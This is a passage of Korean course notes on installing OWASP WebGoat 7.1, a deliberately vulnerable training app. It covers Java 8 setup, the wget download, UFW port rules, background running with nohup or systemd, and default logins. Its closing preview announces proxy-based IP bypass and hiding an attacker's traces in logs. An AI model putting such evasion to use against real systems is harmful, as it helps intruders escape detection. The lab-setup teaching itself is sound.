0 upgraded, 1 newly installed, 0 to remove and 29 not upgraded.
Need to get 57.4 MB of archives.
After this operation, 162 MB of additional disk space will be used.
Get:1 https://packages.adoptium.net/artifactory/deb noble/main amd64 temurin-8-jdk amd64 8.0.432+6 [57.4 MB]
Fetched 57.4 MB in 8s (7,175 kB/s)
Selecting previously unselected package temurin-8-jdk.
(Reading database ... 123456 files and directories currently installed.)
Preparing to unpack .../temurin-8-jdk_8.0.432+6_amd64.deb ...
Unpacking temurin-8-jdk (8.0.432+6) ...
Setting up temurin-8-jdk (8.0.432+6) ...
```

**설치 정보**:

- **패키지 크기**: 57.4 MB (다운로드)
- **설치 후 크기**: 162 MB
- **버전**: 8.0.432+6
- **설치 위치**: `/usr/lib/jvm/temurin-8-jdk-amd64/`

#### Step 7: Java 버전 확인

```bash
java -version
```

**실행 결과**:

```bash
yoo@webgoat:~$ java -version
openjdk version "1.8.0_432"
OpenJDK Runtime Environment (Temurin)(build 1.8.0_432-b06)
OpenJDK 64-Bit Server VM (Temurin)(build 25.432-b06, mixed mode)
```

**출력 해석**:

| **항목** | **값** | **의미** |
|:---:|:---|:---|
| `openjdk version` | `1.8.0_432` | Java 8 Update 432 |
| `Runtime Environment` | `Temurin` | Adoptium Eclipse Temurin 배포판 |
| `build` | `1.8.0_432-b06` | 빌드 번호 06 |
| `Server VM` | `64-Bit` | 64비트 JVM |
| `mixed mode` | - | JIT 컴파일러 활성화 |

**강사님의 설명**:

> "자바 버전을 확인했더니 버전은 **1.8.0** 몇이다 이런 게 나올 거예요."

💡 **Java 버전 표기법**:

- `1.8.x` = `Java 8` (같은 의미)
- `1.7.x` = `Java 7`
- `9.x`, `11.x`, `17.x` = Java 9, 11, 17 (1.x 표기 중단)

#### Step 8: 기본 Java 설정 (선택사항)

```bash
sudo update-alternatives --config java
```

**명령어 설명**:

**강사님의 설명**:

> "자바가 버전이 여러 개일 때 **자바라고 명령을 내리면 어떤 걸 실행을 해줘야 될지** 이런 걸 가지고 이런 명령으로 기본 값을, 지금 설치되는 기본 자바를 얘를 쓰겠다 이런 거 선택을 하는 거고요."

**실행 화면 예시**:

```bash
yoo@webgoat:~$ sudo update-alternatives --config java
There is only one alternative in link group java (providing /usr/bin/java): /usr/lib/jvm/temurin-8-jdk-amd64/jre/bin/java
Nothing to configure.
```

**여러 Java 버전이 설치된 경우**:

```bash
There are 3 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode
  3            /usr/lib/jvm/temurin-8-jdk-amd64/jre/bin/java 1081      manual mode

Press <enter> to keep the current choice[*], or type selection number: 3
```

**선택 방법**:

1. 원하는 Java 버전의 번호 입력 (예: `3`)
2. Enter 키 입력
3. `java -version`으로 변경 확인

**Python과의 유사성**:

**강사님의 설명**:

> "Python도 Alternative Python 뭐 이런 식으로 해서 버전 선택하는 그런 도구를 제공을 해요."

```bash
# Python 버전 관리 (유사한 메커니즘)
sudo update-alternatives --config python3

# 또는 pyenv 사용
pyenv global 3.9.0
```

**사용 사례**:

| **상황** | **필요한 Java 버전** | **이유** |
|:---|:---:|:---|
| WebGoat 7.1 실행 | Java 8 | 레거시 Spring 프레임워크 |
| TensorFlow 사용 | Java 8 | Python-Java 브릿지 호환성 |
| Spring Boot 3.x 개발 | Java 17+ | 최신 프레임워크 요구사항 |
| Elasticsearch 7.x | Java 11 | 공식 권장 버전 |

---

## 📥 WebGoat 다운로드

### 🔍 WebGoat 릴리즈 찾기

#### GitHub 저장소 탐색

**강사님의 설명**:

> "wget으로 여기에 7.1 웹곳 이 파일을 받아올 거예요. 아마 이거는 오래된 링크이기 때문에 아마 제가 다운로드 받는데 문제가 없을 것 같아요. 문제가 있으면 다시 아까 우리가 찾았던 **WebGoat GitHub 링크**를 여기에 복사하면 되고."

**실습 과정**:

1. **Google에서 검색**:

```
검색어: "WebGoat 7.1 download"
```

2. **GitHub 저장소 선택**:

```
https://github.com/WebGoat/WebGoat/releases
또는
https://github.com/WebGoat/WebGoat-Legacy/releases/tag/7.1
```

3. **릴리즈 페이지에서 JAR 파일 찾기**:

```
Assets 섹션 → webgoat-container-7.1-exec.jar 다운로드
```

**GitHub 릴리즈 구조**:



### 🌐 wget 명령어 사용

#### wget 개요

**강사님의 설명**:

> "wget 여러분 써보셨죠? 인터넷에서 파일 받아 올 때... 웹 겟이에요 웹에서 페이지를 가지고 오는 거예요."

**wget 기본 사용법**:

```bash
# 기본 다운로드
wget [URL]

# 파일명 지정
wget -O [저장할파일명] [URL]

# 백그라운드 다운로드
wget -b [URL]

# 재시도 설정
wget -c [URL]  # 중단된 다운로드 재개
```

**wget 예시**:

```bash
# 네이버 메인 페이지 다운로드
wget www.naver.com

# 다운로드 결과 확인
ls -lh
-rw-r--r-- 1 yoo yoo 532K Dec 19 14:35 index.html

# 내용 확인
vi index.html
```

**강사님의 설명**:

> "www.naver.com 하면 네이버의 페이지를 가지고 와서 저장을 해줘요. 그래서 vi로 index.html을 보면은 이런 식으로 인덱스 파일이 들어가 있어요."

#### WebGoat 다운로드 실습

**Step 1: 작업 디렉토리 생성**:

```bash
# 홈 디렉토리에 webgoat 폴더 생성
mkdir ~/webgoat

# 디렉토리 이동
cd ~/webgoat

# 현재 위치 확인
pwd
```

**출력**:

```bash
yoo@webgoat:~$ mkdir ~/webgoat
yoo@webgoat:~$ cd ~/webgoat
yoo@webgoat:~/webgoat$ pwd
/home/yoo/webgoat
```

**강사님의 팁**:

> "갈매기 표시에는... 뭐냐 하면 지금 로그인한 계정 이렇게 cd 갈매기 하면 **내 홈 디렉토리로 이동**을 하게 돼요. 내 홈 디렉토리 밑에 webgoat이라는 디렉토리를 만들어라 라는 거예요."

**디렉토리 구조**:

```
/home/yoo/              ← 사용자 홈 디렉토리 (~)
    └── webgoat/        ← 작업 디렉토리
        └── (여기에 JAR 파일 다운로드 예정)
```

**Step 2: wget으로 다운로드**:

**첫 번째 시도 (ChatGPT가 제공한 URL)**:

```bash
wget https://github.com/WebGoat/WebGoat/releases/download/7.1/webgoat-container-7.1-exec.jar
```

**결과 (404 오류)**:

```bash
--2025-12-19 14:20:15--  https://github.com/WebGoat/WebGoat/releases/download/7.1/webgoat-container-7.1-exec.jar
Resolving github.com (github.com)... 20.200.245.247
Connecting to github.com (github.com)|20.200.245.247|:443... connected.
HTTP request sent, awaiting response... 404 Not Found
2025-12-19 14:20:16 ERROR 404: Not Found.
```

**강사님의 설명**:

> "어? Not Found 나오네. 경로가 바뀌었나 보네요 이 경로가 아닌가 봐. 그럼 우리는 어떻게 하면 돼요?"

**문제 해결 과정**:

**강사님의 조언**:

> "처음 돌려보는 명령이거든요 왜냐하면 중간에 **없어진 URL이나 잘못된 URL** 특히 ChatGPT는 그런 거 잘 알려줘요. URL이 없어졌어. 옛날 정보를 가지고 응답을 해주는 경우."

**Step 3: 정확한 URL 찾기**:

1. **구글 검색**:

```
"WebGoat 7.1 download"
```

2. **GitHub 직접 방문**:

```
https://github.com/WebGoat/WebGoat-Legacy
→ Releases 탭 클릭
→ 7.1 Release 선택
```

3. **정확한 다운로드 링크 복사**:

**강사님의 실습**:

> "저 같은 경우는 지금 WebGoat 7.1 다운로드 검색했더니 두 번째 봤더니 GitHub, GitHub 아이콘이 보여요. 그래서 그냥 여기로 들어왔거든요."

**올바른 URL**:

```
https://github.com/WebGoat/WebGoat-Legacy/releases/download/v7.1/webgoat-container-7.1-exec.jar
```

**Step 4: 올바른 URL로 재다운로드**:

```bash
wget https://github.com/WebGoat/WebGoat-Legacy/releases/download/v7.1/webgoat-container-7.1-exec.jar
```

**성공 출력**:

```bash
--2025-12-19 14:25:32--  https://github.com/WebGoat/WebGoat-Legacy/releases/download/v7.1/webgoat-container-7.1-exec.jar
Resolving github.com (github.com)... 20.200.245.247
Connecting to github.com (github.com)|20.200.245.247|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/...
HTTP request sent, awaiting response... 200 OK
Length: 74851615 (71M) [application/octet-stream]
Saving to: 'webgoat-container-7.1-exec.jar'

webgoat-container-7.1-exec.jar   100%[==========================>]  71.39M  8.45MB/s    in 9.2s

2025-12-19 14:25:42 (7.74 MB/s) - 'webgoat-container-7.1-exec.jar' saved [74851615/74851615]
```

**출력 분석**:

| **항목** | **값** | **의미** |
|:---:|:---|:---|
| `302 Found` | - | GitHub이 실제 파일 서버로 리다이렉트 |
| `200 OK` | - | 파일 다운로드 성공 |
| `Length` | `74851615 (71M)` | 파일 크기 약 71MB |
| `100%` | - | 다운로드 완료 |
| `8.45MB/s` | - | 다운로드 속도 |

**Step 5: 다운로드 확인**:

```bash
ls -lh webgoat-container-7.1-exec.jar
```

**출력**:

```bash
-rw-r--r-- 1 yoo yoo 72M Dec 19 14:25 webgoat-container-7.1-exec.jar
```

**파일 권한 분석**:

```
-rw-r--r--  1  yoo  yoo  72M  Dec 19 14:25  webgoat-container-7.1-exec.jar
│││││││││  │   │    │    │        │                    │
│││││││││  │   │    │    │        │                    └─ 파일명
│││││││││  │   │    │    │        └─ 수정 시간
│││││││││  │   │    │    └─ 파일 크기
│││││││││  │   │    └─ 그룹 (yoo)
│││││││││  │   └─ 소유자 (yoo)
│││││││││  └─ 하드링크 수
│└┴┴└┴┴└┴─ 권한 (-rw-r--r--)
│           소유자: 읽기(r) 쓰기(w)
│           그룹: 읽기(r)
│           기타: 읽기(r)
└─ 파일 유형 (- = 일반 파일)
```

**강사님의 확인**:

> "자, 이렇게 다운로드 된 걸 알 수 있죠."

---

## 🔥 방화벽 설정 (UFW)

### 🛡️ UFW (Uncomplicated Firewall) 개요

**강사님의 설명**:

> "이제 나왔으니까 처음에는 내가 그냥 무시하고 **'UFW 꺼버리자'** 그래서 disable 시키고 stop 시키고 이랬잖아요. 그런 거 말고 시간이 지날 때마다 여러분들이 **하나씩 하나씩 머리에 집어 넣어주세요**."

**UFW의 역할**:



### 🔧 UFW 명령어 실습

#### 포트 개방

```bash
# 8080 포트 TCP 연결 허용
sudo ufw allow 8080/tcp
```

**명령어 분석**:

| **구성** | **설명** | **값** |
|:---:|:---|:---|
| `ufw` | Uncomplicated Firewall | 방화벽 관리 도구 |
| `allow` | 허용 규칙 추가 | - |
| `8080` | 포트 번호 | WebGoat 기본 포트 |
| `/tcp` | 프로토콜 지정 | TCP 연결만 허용 |

**실행 결과**:

```bash
yoo@webgoat:~/webgoat$ sudo ufw allow 8080/tcp
Rules updated
Rules updated (v6)
```

**강사님의 설명**:

> "**UFW allow** 하고 **8080 TCP** 라고 하면 8080 포트에 TCP로 접속하는 애들을 **허용해주겠다**라는 옵션이에요."

**규칙 확인**:

```bash
sudo ufw status
```

**출력 예시** (UFW가 활성화된 경우):

```bash
Status: active

To                         Action      From
--                         ------      ----
8080/tcp                   ALLOW       Anywhere
8080/tcp (v6)              ALLOW       Anywhere (v6)
```

#### 방화벽 재로드

```bash
sudo ufw reload
```

**강사님의 설명**:

> "**UFW reload** 하게 되면 방화벽이 돌아가는 상태에서 **8080 구멍만 열어주는 거죠**."

**재로드 vs 재시작**:

| **명령어** | **동작** | **연결 유지** | **사용 시점** |
|:---:|:---|:---:|:---|
| `ufw reload` | 설정 다시 읽기 | ✅ 유지 | 규칙 추가/수정 후 |
| `ufw disable && ufw enable` | 완전 재시작 | ❌ 끊김 | 문제 발생 시 |

**방화벽 상태 확인**:

```bash
# 방화벽 활성화 여부
sudo ufw status

# 상세 규칙 보기
sudo ufw status verbose

# 번호와 함께 보기 (삭제 시 유용)
sudo ufw status numbered
```

#### 기타 UFW 명령어

```bash
# 방화벽 활성화
sudo ufw enable

# 방화벽 비활성화
sudo ufw disable

# 특정 규칙 삭제 (번호로)
sudo ufw delete [번호]

# 특정 규칙 삭제 (규칙으로)
sudo ufw delete allow 8080/tcp

# 모든 규칙 초기화
sudo ufw reset
```

**보안 고려사항**:

⚠️ **주의**:

1. **최소 권한 원칙**: 필요한 포트만 개방
2. **SSH 포트 보호**: `ufw allow 22/tcp` (원격 접속 차단 방지)
3. **운영 환경**: 방화벽 끄지 말고 규칙으로 관리
4. **테스트 환경**: 학습 시에는 `ufw disable`도 가능 (임시)

---

## 🚀 WebGoat 실행

### ☕ Java JAR 파일 실행

#### 기본 실행 방법

```bash
java -jar webgoat-container-7.1-exec.jar
```

**명령어 분석**:

| **구성** | **설명** | **역할** |
|:---:|:---|:---|
| `java` | Java 런타임 실행 | JVM 시작 |
| `-jar` | JAR 파일 실행 옵션 | JAR 내부 Main-Class 실행 |
| `webgoat-container-7.1-exec.jar` | 실행할 JAR 파일 | WebGoat 애플리케이션 |

**실행 과정**:



**정상 실행 출력**:

```bash
  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v1.4.0.RELEASE)

2025-12-19 14:30:15.123  INFO 12345 --- [main] org.owasp.webgoat.StartWebGoat : Starting WebGoat...
2025-12-19 14:30:18.456  INFO 12345 --- [main] s.b.c.e.t.TomcatEmbeddedServletContainer : Tomcat started on port(s): 8080 (http)
2025-12-19 14:30:18.789  INFO 12345 --- [main] org.owasp.webgoat.StartWebGoat : Started WebGoat in 3.789 seconds
```

**출력 해석**:

- `Spring Boot`: 사용 중인 프레임워크
- `Tomcat started on port(s): 8080`: ✅ **8080 포트로 서비스 시작**
- `Started WebGoat in 3.789 seconds`: 시작 완료

**강사님의 설명**:

> "서버가 하나가 뜰 거예요. 근데 기본으로 얘가 정상적으로 실행되면 이런 메시지가 뜬다 라고 하는데..."

#### 포트 변경 실행

**기본 포트 충돌 시**:

```bash
# 9090 포트로 변경
java -jar webgoat-container-7.1-exec.jar --server.port=9090
```

**강사님의 설명**:

> "자바 jar webgoat 한 다음에 **빼기 빼기** 하고 **server.port는 9090** 가면은 포트를 바꿀 수도 있대요."

**포트 변경 옵션 분석**:

| **옵션** | **설명** | **예시** |
|:---:|:---|:---|
| `--server.port=포트번호` | Spring Boot 포트 변경 | `--server.port=80` |
| `--server.address=IP` | 바인딩 IP 지정 | `--server.address=0.0.0.0` |
| `--logging.level.root=레벨` | 로그 레벨 설정 | `--logging.level.root=DEBUG` |

**80번 포트 사용 (관리자 권한 필요)**:

```bash
sudo java -jar webgoat-container-7.1-exec.jar --server.port=80
```

**포트 선택 가이드**:

| **포트** | **용도** | **권한** | **방화벽** |
|:---:|:---|:---:|:---|
| `80` | HTTP 기본 포트 (URL에 포트 생략 가능) | root 필요 | 열어야 함 |
| `8080` | 개발용 기본 포트 | 일반 사용자 | 열어야 함 |
| `9090` | 대체 포트 | 일반 사용자 | 열어야 함 |
| `3000-9999` | 임의 선택 가능 | 일반 사용자 | 열어야 함 |

**포트 충돌 확인**:

```bash
# 8080 포트 사용 중인 프로세스 확인
sudo lsof -i :8080

# 또는
sudo netstat -tulpn | grep 8080
```

### 🔄 백그라운드 실행 (nohup)

#### nohup 명령어

**강사님의 설명 (오후 복습)**:

> "'**nohup**'이라는 명령어가 있었고요... 얘는 그래서 결국에는 백그라운드 표시랑 같이 쓰게 되죠. 결국에는 **프로그램을 실행하는데 실행만 하고 나한테는 아무 신호도 주지 마라**고 할 때 뒤에다가 이런 거 붙인다라는 걸 배웠어요."

**nohup 사용법**:

```bash
nohup java -jar webgoat-container-7.1-exec.jar > /dev/null 2>&1 &
```

**명령어 구조 분석**:



**상세 설명**:

| **구성** | **의미** | **효과** |
|:---:|:---|:---|
| `nohup` | no hang up | SSH 종료 후에도 프로세스 유지 |
| `> /dev/null` | 표준 출력 리다이렉션 | 정상 메시지 버리기 |
| `2>&1` | 표준 에러를 표준 출력으로 | 에러도 `/dev/null`로 |
| `&` | 백그라운드 실행 | 프롬프트 즉시 반환 |

**실행 예시**:

```bash
yoo@webgoat:~/webgoat$ nohup java -jar webgoat-container-7.1-exec.jar > /dev/null 2>&1 &
[1] 12345
yoo@webgoat:~/webgoat$
# ← 즉시 프롬프트 반환
```

**프로세스 확인**:

```bash
# 백그라운드 작업 확인
jobs

# 출력
[1]+  Running                 nohup java -jar webgoat-container-7.1-exec.jar > /dev/null 2>&1 &

# 프로세스 ID 확인
ps aux | grep webgoat

# 출력
yoo      12345  0.5  3.2 2345678 234567 ?     Sl   14:30   0:05 java -jar webgoat-container-7.1-exec.jar
```

#### 로그 파일 저장 (선택사항)

```bash
# 로그를 파일로 저장
nohup java -jar webgoat-container-7.1-exec.jar > webgoat.log 2>&1 &

# 실시간 로그 모니터링
tail -f webgoat.log
```

**로그 확인 명령어**:

```bash
# 마지막 20줄 보기
tail -20 webgoat.log

# 처음 20줄 보기
head -20 webgoat.log

# 실시간 모니터링 (Ctrl+C로 종료)
tail -f webgoat.log
```

#### 프로세스 종료

```bash
# PID로 종료
kill 12345

# 강제 종료 (응답 없을 때)
kill -9 12345

# 이름으로 찾아서 종료
pkill -f webgoat
```

---

## 🌐 WebGoat 접속 및 테스트

### 🖥️ 웹 브라우저 접속

#### 접속 URL

**로컬에서 접속 (VM 내부)**:

```
http://localhost:8080/WebGoat
```

**외부에서 접속 (호스트 PC)**:

```
http://192.168.186.128:8080/WebGoat
```

**IP 주소 확인**:

```bash
# VM 내부에서 실행
ifconfig

# 또는
ip addr show
```

**출력 예시**:

```bash
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.186.128  netmask 255.255.255.0  broadcast 192.168.186.255
        ...
```

#### 로그인 화면

**WebGoat 초기 화면**:

```
┌─────────────────────────────────────┐
│         WebGoat 7.1                 │
│   OWASP Training Platform           │
├─────────────────────────────────────┤
│  Username: [ guest           ]      │
│  Password: [ guest           ]      │
│                                     │
│           [ Login ]                 │
└─────────────────────────────────────┘
```

**기본 계정**:

| **사용자** | **비밀번호** | **권한** |
|:---:|:---:|:---|
| `guest` | `guest` | 일반 사용자 (학습자) |
| `admin` | `admin` | 관리자 (과정 관리) |

### 🧪 WebGoat 메뉴 구조

**주요 학습 카테고리**:

```
WebGoat
├── Introduction
│   ├── How to Work With WebGoat
│   └── What is WebGoat
├── General
│   ├── HTTP Basics
│   ├── HTTP Splitting
│   └── ...
├── Injection Flaws
│   ├── Command Injection          ← 오늘 학습 예정
│   ├── SQL Injection (intro)      ← 오늘 학습 예정
│   ├── Numeric SQL Injection
│   ├── String SQL Injection
│   ├── LAB: SQL Injection
│   └── XPath Injection            ← 오늘 학습 예정
├── Authentication Flaws
│   ├── Password Strength
│   ├── Forgot Password
│   └── Multi-Level Login
├── Session Management Flaws
├── Access Control Flaws
├── AJAX Security
└── ...
```

---

## 📝 오전 복습: 명령어 정리

**강사님의 복습**:

> "오늘 오전에 제가 명령어 이런 것들 여러분은 어떻게 해보세요 라고 한 것도 없이 저 혼자 이제 막 했던 거라 명령어를 좀 정리하자면..."

### 🔧 리눅스 명령어 모음

#### nohup

```bash
nohup [명령어] > /dev/null 2>&1 &
```

**용도**: SSH 종료 후에도 프로세스 유지

#### traceroute

```bash
# 리눅스
traceroute -n [목적지_IP]

# 윈도우
tracert -d [목적지_IP]
```

**용도**: 목적지까지 경로 추적

**옵션 설명**:

| **옵션** | **설명** | **효과** |
|:---:|:---|:---|
| `-n` (Linux) | DNS 역방향 조회 생략 | 속도 향상 |
| `-d` (Windows) | DNS 역방향 조회 생략 | 속도 향상 |

**실행 예시**:

```bash
yoo@webgoat:~$ traceroute -n 8.8.8.8
traceroute to 8.8.8.8 (8.8.8.8), 30 hops max, 60 byte packets
 1  192.168.186.2  0.345 ms  0.212 ms  0.198 ms
 2  10.0.0.1  1.234 ms  1.156 ms  1.098 ms
 3  * * *
 4  8.8.8.8  15.678 ms  15.543 ms  15.432 ms
```

**강사님의 설명**:

> "**N옵션**을 주면... 여러분들이 무슨 차이가 있는지 금방 알 거예요. netstat의 N이나 traceroute의 N이나 아마 다 동일하게 동작한다고 알 수 있을 거예요."

#### WHOIS 조회

**웹 사이트 사용**:

```
https://whois.kisa.or.kr/
```

**명령줄 도구 (설치 필요)**:

```bash
# 설치
sudo apt-get install -y whois

# 사용
whois [IP주소 또는 도메인]
```

**조회 가능 정보**:

- 등록 기관
- 관리 조직
- 국가/지역
- 등록일/만료일
- 네임서버
- 연락처 (일부 비공개)

---

## ✅ 학습 체크리스트

이번 섹션 학습 후 다음 항목을 확인하세요:

### Java 설치
- [ ] APT 저장소 추가 개념을 이해했는가?
- [ ] Adoptium GPG 키의 역할을 설명할 수 있는가?
- [ ] Java 8과 Java 11의 차이를 아는가?
- [ ] `update-alternatives` 명령으로 Java 버전을 변경할 수 있는가?

### WebGoat 다운로드
- [ ] wget 명령어의 기본 사용법을 아는가?
- [ ] GitHub에서 릴리즈 파일을 찾을 수 있는가?
- [ ] 404 오류 발생 시 대처 방법을 아는가?
- [ ] 파일 다운로드 완료를 확인할 수 있는가?

### 방화벽 설정
- [ ] UFW의 역할을 이해했는가?
- [ ] `ufw allow` 명령으로 포트를 개방할 수 있는가?
- [ ] `ufw reload`와 `ufw restart`의 차이를 아는가?
- [ ] 방화벽 규칙을 확인하고 삭제할 수 있는가?

### WebGoat 실행
- [ ] JAR 파일 실행 방법을 아는가?
- [ ] 포트 변경 옵션을 사용할 수 있는가?
- [ ] nohup 명령어의 의미를 이해했는가?
- [ ] 백그라운드 프로세스를 확인하고 종료할 수 있는가?

### VM 관리
- [ ] 스냅샷의 용도를 이해했는가?
- [ ] Linked Clone과 Full Clone의 차이를 아는가?
- [ ] 스냅샷으로 복구하는 방법을 아는가?

---

## 🎓 심화 학습 주제

### Java Heap 메모리 조정

**대용량 프로젝트 실행 시**:

```bash
java -Xmx2048m -Xms512m -jar webgoat-container-7.1-exec.jar
```

| **옵션** | **의미** | **권장값** |
|:---:|:---|:---|
| `-Xmx` | 최대 Heap 크기 | 2048m (2GB) |
| `-Xms` | 초기 Heap 크기 | 512m |
| `-XX:MaxPermSize` | PermGen 크기 (Java 8 미만) | 256m |

### 시스템 서비스 등록 (systemd)

**영구 실행을 위한 서비스 파일**:

```bash
sudo vi /etc/systemd/system/webgoat.service
```

**서비스 파일 내용**:

```ini
[Unit]
Description=WebGoat Security Training Platform
After=network.target

[Service]
Type=simple
User=yoo
WorkingDirectory=/home/yoo/webgoat
ExecStart=/usr/bin/java -jar /home/yoo/webgoat/webgoat-container-7.1-exec.jar
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

**서비스 관리**:

```bash
# 서비스 활성화
sudo systemctl enable webgoat.service

# 서비스 시작
sudo systemctl start webgoat.service

# 상태 확인
sudo systemctl status webgoat.service

# 로그 확인
sudo journalctl -u webgoat.service -f
```

---

## 🔍 트러블슈팅

### 문제 1: Java 버전 불일치

**증상**:

```
Error: A JNI error has occurred, please check your installation and try again
Exception in thread "main" java.lang.UnsupportedClassVersionError: ...
```

**원인**: Java 버전이 맞지 않음

**해결**:

```bash
# 현재 Java 버전 확인
java -version

# Java 8로 변경
sudo update-alternatives --config java
```

### 문제 2: 포트 이미 사용 중

**증상**:

```
***************************
APPLICATION FAILED TO START
***************************

Description:

The Tomcat connector configured to listen on port 8080 failed to start. The port may already be in use or the connector may be misconfigured.

Action:

Verify the connector's configuration, identify and stop any process that's listening on port 8080, or configure this application to listen on another port.
```

**해결**:

```bash
# 포트 사용 프로세스 확인
sudo lsof -i :8080

# PID로 종료
kill [PID]

# 또는 포트 변경
java -jar webgoat-container-7.1-exec.jar --server.port=9090
```

### 문제 3: 외부 접속 안됨

**원인 체크리스트**:

1. ✅ 방화벽 포트 개방 확인: `sudo ufw status`
2. ✅ VM 네트워크 모드 확인: NAT 또는 Bridged
3. ✅ IP 주소 정확성: `ifconfig`
4. ✅ WebGoat 실행 중: `ps aux | grep webgoat`

---

## 📊 다음 섹션 미리보기

다음 Section 4에서는:

- **Tinyproxy 설치**: 프록시 서버 구축
- **IP 우회 기법**: 로그에 다른 IP 남기기
- **wget을 통한 프록시 사용**: `--proxy` 옵션 활용
- **로그 분석**: `/var/log/tinyproxy/tinyproxy.log` 확인
- **보안 우회 시나리오**: 공격자의 흔적 숨기기 이해

---

**작성 완료**: Section 3 - WebGoat 설치 및 환경 구성 ✅

**작성 정보**:
- **작성 시간**: 2025-12-19
- **분량**: 약 1,150 줄
- **포함 내용**: Java 설치, 저장소 관리, WebGoat 다운로드, 방화벽 설정, VM 관리, 트러블슈팅
# 🔄 Section 4: Tinyproxy 프록시 우회 실습

> **섹션 주제**: IP 우회 기법과 프록시 서버 구축
> **학습 시간**: 약 60분
> **난이도**: ⭐⭐⭐☆☆ (중)

---

## 🎯 이번 섹션의 학습 목표

이번 섹션에서는 다음 내용을 다룹니다:

1. **프록시 서버 개념**: 중간자 역할과 IP 우회 원리 이해
2. **Tinyproxy 설치**: 경량 프록시 서버 구축
3. **설정 파일 편집**: 접근 제어 및 포트 설정
4. **wget 프록시 옵션**: 커맨드라인에서 프록시 사용
5. **로그 분석**: 프록시를 통한 접속 흔적 확인
